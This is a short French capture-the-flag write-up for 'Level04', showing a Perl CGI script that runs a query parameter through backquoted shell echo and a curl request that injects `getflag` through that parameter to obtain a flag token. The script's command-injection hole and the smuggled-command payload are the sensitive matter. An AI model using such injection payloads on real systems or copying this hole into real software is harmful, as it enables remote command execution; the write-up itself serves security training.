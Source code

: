 # Level04

On trouve un script <code>level04.pl</code>

```bash
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

Après lecture, on voit qu'il s'exécute lorsqu'on effectue une requête sur <code>localhost:4747</code> et qu'il prend un paramètre.

```bash
$ curl 192.168.56.102:4747?x=test
test
```

Avec "test" comme paramètre, le programme écrit <code>test</code> sur la sortie standard. On peut donc injecter une commande que le script exécutera avec ses droits grâce aux backquotes :

```bash
$ curl 192.168.56.102:4747?x=\`getflag\`
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
